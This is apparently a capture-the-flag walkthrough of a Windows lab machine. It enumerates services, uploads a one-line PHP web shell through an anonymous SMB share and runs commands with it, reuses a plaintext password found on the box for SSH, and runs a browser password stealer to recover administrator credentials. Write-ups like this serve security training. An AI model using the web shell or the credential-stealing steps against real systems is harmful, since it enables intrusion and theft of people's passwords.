 ## Breaking Windows
```
Breaking Windows is an introductory Windows challenge focused on enumeration. Basic Windows  knowledge will be immensely helpful. This VM simulates an internal server used by employees.
```
## Initial Access
We'll start with an `nmap` scan against the machine:
```
$ nmap 10.10.11.131      
	Nmap scan report for 10.10.11.131
	Host is up (0.00080s latency).
	Not shown: 995 closed tcp ports (reset)
	PORT    STATE SERVICE
	22/tcp  open  ssh
	80/tcp  open  http
	135/tcp open  msrpc
	139/tcp open  netbios-ssn
	445/tcp open  microsoft-ds
```
There are three services present on the machine, `SSH`, `HTTP`, and `SMB`. We'll start first by enumeration the `HTTP` service.
### HTTP
Running `curl` on the website reveals a very simple `HTTP` site. However, it does reveal that the server is powered by `Microsoft IIS` and `PHP 8.3.3`. Let's enumeration for directories, or files that might be helpful. 
```
$ curl http://10.10.11.131 -v
	*   Trying 10.10.11.131:80...
	* Connected to 10.10.11.131 (10.10.11.131) port 80
	< HTTP/1.1 200 OK
	< Content-Type: text/html; charset=UTF-8
	< Server: Microsoft-IIS/10.0
	< X-Powered-By: PHP/8.3.3
	< Date: Sat, 25 Jan 2025 05:43:42 GMT
	< Content-Length: 35
	< 
	Welcome To the Company Web Server!
	* Connection #0 to host 10.10.11.131 left intact
```
#### ffuf
Using the following command, we can start fuzzing for directories. However, we'll notice that the server does not send an error code for files it cannot find, and so ffuf always returns an error, which makes the directory scanning prohibitively slow. Let's move onto the `SMB` server.
```
$ ffuf -ic -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt:FUZZ -u http://10.10.11.130/FUZZ
```
### SMB
Let's try to access the `SMB` service without any credentials with the following command:
```
$ smbclient --no-pass -L //10.10.11.131/     
        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
        Personal        Disk
```
It works! We can see there are for shares, and one of them is a non standard share, `Personal`. Let's see if we can access that directory with credentials as well, with the following command:
```
$ smbclient --no-pass //10.10.11.131/Personal
Try "help" to get a list of possible commands.
smb: \>
```
We can access it! We can use the `dir` command to list files, and the `get` command to download them.
```
smb: \> dir
  .                                   D        0  Fri Jan 24 22:36:44 2025
  ..                                  D        0  Fri Jan 24 22:36:44 2025
  Welcome!.txt                        A      219  Tue Feb 27 20:21:13 2024

                6425087 blocks of size 4096. 3118935 blocks available
smb: \> get Welcome!.txt 
	getting file \Welcome!.txt of size 219 as Welcome!.txt
```
`Welcome!.txt` contains the following text:
```
Hey Everyone, 

This is your place to place your own webpages. 
Please make sure your file names don't impead others.

Remember you can access them through /Personal/<File> on the webserver!.


Thanks!
- John
```
Looks like this share is a way for employees to share files on the webserver. We can check if this is the case by trying to see if we can access this same file on the webserver with the following command:
```
$ curl 'http://10.10.11.131/Personal/Welcome!.txt'
	Hey Everyone, 
	
	This is your place to place your own webpages. 
	Please make sure your file names don't impead others.
	
	Remember you can access them through /Personal/<File> on the webserver!.
	
	
	Thanks!
	- John
```
Let's craft a `PHP` webshell, and see if we can upload it on the share, and access it through the webserver. Our `shell.php` file should contain the following:
```
<?php echo system($_REQUEST['cmd']); ?>
```
We can upload files to the `SMB` share with the `put` command:
```
smb: \> put shell.php 
	putting file shell.php as \shell.php
```
Let's try to access it with `curl`:
```
$ curl 'http://10.10.11.131/Personal/shell.php?cmd=whoami'
	breakingwindows\web
```
It works! We can get the flag with the following command:
```
$ curl 'http://10.10.11.131/Personal/shell.php?cmd=type+C:\inetpub\flag.txt'
	BW{smb_rev_shell}
```
## Lateral Movement
After searching the file system for any files, we find a file called `John.txt` in the Public Documents folder. The contents seem to reveal the password for the user `john`.
```
$ curl 'http://10.10.11.131/Personal/shell.php?cmd=type+C:\Users\Public\Documents\John.txt'
John,

Don't forget your to change this password once you log in next.

john:dontforgetthis!1


Also, you'll notice you are not an admin on this machine. 
I'll provide the password in person that will allow you to elevate.
Please don't save it anywhere on the computer. 

Thanks,
Network Admin
```
Let's try to login as `john` on the `SSH` server, providing the password we just found.
```
$ ssh john@10.10.11.131
	john@10.10.11.131's password:
	
	john@BREAKINGWINDOWS C:\Users\john> whoami                        
		breakingwindows\john
```
It works! We can get the flag with the following command:
```
john@BREAKINGWINDOWS C:\Users\john> type Desktop\flag.txt
	BW{plaintext_creds}
```
## Privilege Escalation
In the file `John.txt`, the Network Admin says he'll give John an admin password to the machine later and that it should not be stored on the machine. There are multiple browsers present on the machine, and one may have the credentials we are looking for.  We can use a Browser Password Stealer. As `python` is present on the machine, we'll use this [one](https://github.com/henry-richard7/Browser-password-stealer). After transferring it over to the machine, we can run it with the following command:
```
john@BREAKINGWINDOWS C:\Users\john> python .\chromium_based_browsers.py
```
The command output says it found credentials in Chrome! We can use `type` to see the exported credentials. 
```
john@BREAKINGWINDOWS C:\Users\john> type chrome\login_data.txt
	URL
	Email: administrator 
	Password: BreakingWindows2024
```
Let's try to login as `administrator` on the `SSH` server, providing the password we just found.
```
$ ssh administrator@10.10.11.131
	administrator@10.10.11.131's password:
	
	administrator@BREAKINGWINDOWS C:\Users\Administrator> whoami                
			breakingwindows\administrator
```
It works! We can get the flag with the following command:
```
administrator@BREAKINGWINDOWS C:\Users\Administrator> type Desktop\flag.txt
	BW{improper_cred_storage}
```